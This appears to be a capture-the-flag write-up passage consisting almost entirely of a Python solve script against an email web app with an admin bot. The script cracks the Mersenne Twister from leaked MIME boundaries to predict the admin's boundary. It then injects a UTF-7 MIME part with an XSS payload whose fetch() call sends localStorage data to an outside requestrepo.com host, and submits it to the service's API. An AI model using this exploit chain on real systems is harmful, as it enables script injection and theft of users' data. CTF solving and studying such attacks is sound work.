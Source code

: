 ```python
import randCracker # https://github.com/icemonster/symbolic_mersenne_cracker/blob/main/main.py

def error(text):
	print(f"[\x1b[41mERROR\x1b[0m] {text}")
	sys.exit()

def info(text):
	print(f"[\x1b[32;1m+\x1b[0m] {text}")

ut = randCracker.Untwister()
for _ in range(800):
    b = bin(get_boundary(s))[2:].zfill(63)
    half1, half2 = b[:31], b[31:]
    half1 = half1 + '?'
    ut.submit(half2)
    ut.submit(half1)
    
r2 = ut.get_random()
# Let's send one more email to ourself and see if our prediction's correct.
info("State solved!") if r2.getrandbits(63) == get_boundary(s) else error("Boundary prediction failed.")
_ = r2.getrandbits(63) # skip over the email we send
print("CURRENT MUST BE ",_)
# Admin's boundary string!
admin_boundary = '%019d' % r2.getrandbits(63)
print(f"THIS MUST BE RIGHT  : {admin_boundary}")
print(f"THIS IS OF SMILE KK: {r2.getrandbits(63)}")
print(f"FOUNDDDDDDDDDDDD next: {r2.getrandbits(63)}")


script =  base64.b64encode("fetch('https://vqbe0frw.requestrepo.com/?q='+localStorage.getItem('flag'))".encode('utf-8')).decode('utf-8').replace('=','+AD0-')
print(script)
payload = f"""hi

 --==============={admin_boundary}==
Content-Type : text/html; charset=utf-7
MIME-Version : 1.0

+ADw-img+ACA-src+AD0-+ACI-x+ACI-+ACA-onerror+AD0-eval(atob('{script}'))+ADs-+ACA-/+AD4-
 --==============={admin_boundary}==
"""

final_payload = f'hi=?ISO-8859-1?B?{base64.b64encode(payload.encode()).decode()}?=\nFrom : admin@ses'

data = {
    'to':"admin@ses",
    "subject": final_payload,
    "body":"HI"
}


res=  requests.post(url+'/api/send',json=data,headers=headers)
res=  requests.post(url+'/api/admin_bot',json=data,headers=headers)
res=  requests.post(url+'/api/admin_bot',json=data,headers=headers)
print(res.text)

```
## FINALLY 
![image](https://hackmd.io/_uploads/H1V2SWgayl.png)